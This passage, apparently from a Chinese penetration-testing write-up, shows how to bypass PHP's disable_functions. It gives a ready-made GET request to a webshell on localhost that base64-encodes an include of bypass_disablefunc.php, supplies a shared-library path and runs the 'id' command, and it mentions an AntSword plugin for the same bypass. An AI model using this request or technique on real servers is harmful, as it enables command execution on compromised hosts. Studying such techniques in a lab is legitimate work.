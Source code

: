 然后打开bypass_disablefunc.php并使用GET方法提供所需的三个参数：

```php
http://localhost:8090/?Ginkgo=aW5jbHVkZSgiL3RtcC9ieXBhc3NfZGlzYWJsZWZ1bmMucGhwIik7Cg==
&cmd=id&outpath=/tmp/outfile123&sopath=/tmp/bypass_disablefunc_x64.so

aW5jbHVkZSgiL3RtcC9ieXBhc3NfZGlzYWJsZWZ1bmMucGhwIik7Cg== base64解码为include("/tmp/bypass_disablefunc.php");
```

![image-20211126235500878](image/命令执行/image-20211126235500878.png)

在蚁剑中有该绕过disable_functions的插件：

![image-20211126235627772](image/命令执行/image-20211126235627772.png)

